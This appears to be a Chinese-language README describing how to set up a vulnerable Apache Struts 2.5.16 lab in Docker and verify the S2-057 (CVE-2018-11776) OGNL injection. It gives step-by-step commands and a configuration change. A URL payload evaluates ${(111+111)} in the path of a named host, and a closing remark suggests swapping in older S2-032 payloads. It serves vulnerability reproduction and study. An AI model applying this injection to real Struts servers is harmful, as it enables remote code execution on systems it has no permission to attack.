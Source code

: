 # St2-057
St2-057 Poc Example

0x01 搭建环境docker

https://github.com/vulhub/vulhub/tree/master/struts2/s2-048

```
docker-compose up -d
```

0x02 搭建st2-057漏洞环境

```
docker exec -i -t 88fd8d560155 /bin/bash
```
后台启动进入docker
![](./docker-struts-048.jpg)

根据公告
https://struts.apache.org/releases.html

```
Release	Release Date	Vulnerability	Version Notes
Struts 2.5.16	16 March 2018	S2-057	Version notes
Struts 2.5.14.1	30 November 2017	Version notes
Struts 2.5.14	23 November 2017	S2-055, S2-054	Version notes
```
Struts 2.5.16存在s2-057漏洞，然后去下载这个版本

https://fossies.org/linux/www/legacy/struts-2.5.16-all.zip/

```

apt-get update -y
mkdir /usr/local/tomcat/webapps/test
wget https://fossies.org/linux/www/legacy/struts-2.5.16-all.zip
apt-get install unzip -y
cp struts2-showcase.war /usr/local/tomcat/webapps/

```
![(./wget-st2-057.jpg)]

0x03 修改配置文件

先查找文件struts-actionchaining.xml，发现有2处需要修改
```
root@88fd8d560155:/usr/local/tomcat/webapps/test# locate struts-actionchaining.xml
/usr/local/tomcat/webapps/struts2-showcase/WEB-INF/classes/struts-actionchaining.xml
/usr/local/tomcat/webapps/struts2-showcase/WEB-INF/src/java/struts-actionchaining.xml
/usr/local/tomcat/webapps/test/struts-2.5.16/src/apps/showcase/src/main/resources/struts-actionchaining.xml
root@88fd8d560155:/usr/local/tomcat/webapps/test# 

```
配置文件修改-参考链接：
https://lgtm.com/blog/apache_struts_CVE-2018-11776

改为如下所示：

```
<struts>
    <package name="actionchaining" extends="struts-default">
        <action name="actionChain1" class="org.apache.struts2.showcase.actionchaining.ActionChain1">
           <result type="redirectAction">
             <param name = "actionName">register2</param>
           </result>
        </action>
    </package>
</struts>
```
![./struts-actionchaining.jpg]

然后去bin，kill掉进程,因为修改了配置文件，所以需要重启服务
```
root@88fd8d560155:/usr/local/tomcat/bin# cd /usr/local/tomcat/bin/
root@88fd8d560155:/usr/local/tomcat/bin# ls
bootstrap.jar	    catalina.sh			  commons-daemon.jar  daemon.sh  setclasspath.sh  startup.sh	   tool-wrapper.sh
catalina-tasks.xml  commons-daemon-native.tar.gz  configtest.sh       digest.sh  shutdown.sh	  tomcat-juli.jar  version.sh
root@88fd8d560155:/usr/local/tomcat/bin# ./shutdown.sh 

```
![./donw.jpng]

0x04 重启服务，st2-057搭建完成
```
 ✘ ⚡ root@HK  ~/vulhub/struts2/s2-048   master ●  docker-compose up -d
Starting s2-048_struts2_1 ... done
 ⚡ root@HK  ~/vulhub/struts2/s2-048   master ●  
```
0x05  验证st2-057
docker 靶机：http://www.canyouseeme.cc:8080/struts2-showcase/
命令执行：http://www.canyouseeme.cc:8080/struts2-showcase/${(111+111)}/actionChain1.action
${(111+111)}
得到执行结果返回在url中：http://www.canyouseeme.cc:8080/struts2-showcase/222/register2.action

![./st2-57.jpng]

Ps: ${(111+111)} 可以替换成以前的poc，例如S2-032




